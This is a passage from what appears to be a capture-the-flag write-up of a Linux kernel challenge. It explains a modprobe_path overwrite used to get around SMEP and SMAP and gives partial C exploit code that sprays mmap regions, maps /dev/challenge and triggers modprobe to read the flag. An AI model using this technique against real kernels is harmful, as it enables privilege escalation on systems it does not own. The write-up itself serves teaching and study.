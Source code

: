 
We can exploit by modifying modprobe or cred after determining the physical base address.
Since SMEP and SMAP are enabled, we need to use the modprobe technique. The modprobe_path exists in the kernel data section, so you can read **/proc/iomem** to find the physical memory base address of the kernel data section. By using the leaked physical address and offset, you can determine the physical base address.

## 0x02 Exploit
After that, you can proceed with the exploit using a standard modprobe_path overwrite technique.

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdio.h>
#include <sched.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>
#include <err.h>

typedef unsigned long ulong;

#define SPRAY_CNT 0x200
#define PAGE_SIZE 0x1000
#define PAGE_CNT 128
#define SBUF_SIZE (PAGE_CNT * PAGE_SIZE)

char *spray[SPRAY_CNT];

void get_flag(void)
{
    system("echo '#!/bin/sh\nchmod 777 /flag.txt' > /tmp/ex");
    system("chmod +x /tmp/ex");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    system("/tmp/dummy");

    system("cat /flag.txt");
}

int page()
{
	int pfd[2];
	pipe(pfd);
	write(pfd[1], "BBBBBBBB", 8);
	close(pfd[0]);
	close(pfd[1]);
	return 0;
}

int main(int argc, char **argv)
{
	for (int i = 0; i < SPRAY_CNT; i++){
		spray[i] = mmap((void*)(0xdead000000 + i*0x10000), 0x8000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_SHARED, -1, 0);
	}
		
	int fd = open("/dev/challenge", O_RDWR)	;
	char *p = mmap((char*)0xcafe0000, SBUF_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_SHARED|MAP_FIXED, fd, 0);
	mremap(p, SBUF_SIZE, PAGE_SIZE*129, 0);
```